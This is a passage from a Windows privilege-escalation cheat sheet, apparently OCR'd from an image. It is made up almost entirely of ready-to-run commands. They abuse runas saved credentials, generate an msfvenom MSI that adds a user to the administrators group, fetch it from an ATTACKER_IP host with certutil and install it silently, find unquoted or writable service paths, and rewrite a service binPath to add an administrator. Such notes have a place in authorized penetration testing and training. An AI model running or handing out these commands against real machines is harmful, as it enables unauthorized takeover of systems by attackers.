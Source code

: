 Runas with saved creds (only if cmdkey shows saved creds you can use)
```
runas /savecred /user:.\Administrator "cmd.exe /c whoami && cmd"
```

AlwaysInstallElevated check and exploit
```
reg query HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
If both values are 0x1:
- Generate on attacker box:
```
msfvenom -p windows/x64/exec CMD="net localgroup administrators lowuser /add" -f msi -o addadmin.msi
```
- Transfer to victim (example using certutil):
```
certutil -urlcache -f http://ATTACKER_IP/addadmin.msi C:\Windows\Temp\addadmin.msi
msiexec /quiet /qn /i C:\Windows\Temp\addadmin.msi
```

Service enumeration and abuse (modifiable service binPath)
- List details:
```
sc qc "ServiceName"
sc query "ServiceName"
```
- Check unquoted paths (cmd):
```
wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /v /i "C:\Windows\\" 
```
- PowerShell unquoted detection (more reliable):
```
powershell -NoP -C "Get-WmiObject win32_service | ? {$_.StartMode -eq 'Auto' -and $_.PathName -notmatch '^\"'} | select Name,DisplayName,PathName | fl"
```
- Check write permissions on folders/binaries:
```
icacls "C:\Program Files\VulnSvc"
icacls "C:\Program Files\VulnSvc\service.exe"
```
- With AccessChk (if available):
```
accesschk.exe -accepteula -ucqv "ServiceName"
accesschk.exe -accepteula -uwdq "Users" "C:\Program Files\VulnSvc"
```
- If you can change the service binPath (SERVICE_CHANGE_CONFIG):
```
sc config "ServiceName" binPath= "cmd.exe /c net localgroup administrators lowuser /add"
sc stop "ServiceName"
sc start "ServiceName"
```
Note: The space after binPath= is required by sc syntax.

